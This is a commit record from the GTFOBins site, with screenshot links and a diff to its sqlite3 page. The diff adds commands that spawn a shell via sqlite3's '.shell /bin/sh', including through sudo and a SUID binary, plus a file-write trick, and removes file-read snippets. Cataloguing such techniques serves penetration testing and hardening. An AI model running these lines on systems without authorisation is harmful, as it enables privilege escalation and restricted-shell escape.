

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sqlite3.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1031 px from its top, so only the background shows below that.

Commit message:
Add execute-interactive to sqlite3

```diff
--- a/_gtfobins/sqlite3.md
+++ b/_gtfobins/sqlite3.md
@@ -1,21 +1,15 @@
 ---
 functions:
+  execute-interactive:
+    - code: sqlite3 /dev/null '.shell /bin/sh'
   sudo-enabled:
+    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
+  suid-limited:
+    - code: ./sqlite3 /dev/null '.shell /bin/sh'
+  file-write:
     - code: |
-        LFILE=file_to_read
-        sudo sqlite3 << EOF
-        CREATE TABLE t(line TEXT);
-        .import $LFILE t
-        SELECT * FROM t;
-        EOF
-  suid-enabled:
-    - code: |
-        LFILE=file_to_read
-        ./sqlite3 << EOF
-        CREATE TABLE t(line TEXT);
-        .import $LFILE t
-        SELECT * FROM t;
-        EOF
+        LFILE=file_to_write
+        sqlite3 /dev/null -cmd ".output $LFILE" 'select "data";'
   file-read:
     - code: |
         LFILE=file_to_read
```
